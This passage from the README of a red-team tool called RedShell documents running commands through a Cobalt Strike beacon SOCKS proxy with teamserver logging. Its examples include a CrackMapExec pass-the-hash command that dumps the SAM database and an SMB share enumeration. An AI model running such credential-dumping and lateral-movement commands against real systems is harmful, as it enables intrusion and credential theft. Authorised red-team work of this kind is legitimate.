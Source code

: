 ![alt text](./images/cs_status.png "CS Status")

Execute commands through the beacon socks proxy. These can be run in the context of the current user or via sudo. Specifying 'proxychains' in the command is optional. Commands are forced through proxychains. MITRE ATT&CK Tactic IDs are optional. 
```
redshell > beacon_exec -h
usage: beacon_exec [-h] [-t TTP] ...

Execute a command through beacon socks proxy and simultaneously log it to the teamserver.

positional arguments:
  command            Command to execute through the proxy and log.

optional arguments:
  -h, --help         show this help message and exit
  -t TTP, --ttp TTP  MITRE ATT&CK Tactic IDs. Comma delimited to specify multiple.

example: 
beacon_exec -t T1550.002,T1003.002 cme smb 192.168.1.1 --local-auth -u Administrator -H C713B1D611657D0687A568122193F230 --sam
```
Example:

![alt text](./images/beacon_exec.png "Beacon Exec")

Note on the Redshell and CS install directory options - the script needs to know where it lives, as well as Cobalt Strike.
If stuff blows up, be sure to set the directories accordingly:
```
redshell > set redshell_directory /opt/redshell
redshell > set cs_directory /opt/cobaltstrike
```

## General
Note on passwords used in *exec commands: special characters in passwords may be interpreted as shell meta characters, which could cause commands to fail. To get around this, set the password option and then invoke with '$password'. Example:
```
redshell > set password Test12345
password - was: ''
now: 'Test12345'
redshell > beacon_exec cme smb 192.168.1.14 --local-auth -u administrator -p $password --shares
```

RedShell includes commands for navigating the file system:
```
redshell > cd /opt/redshell/
redshell > pwd
/opt/redshell
```
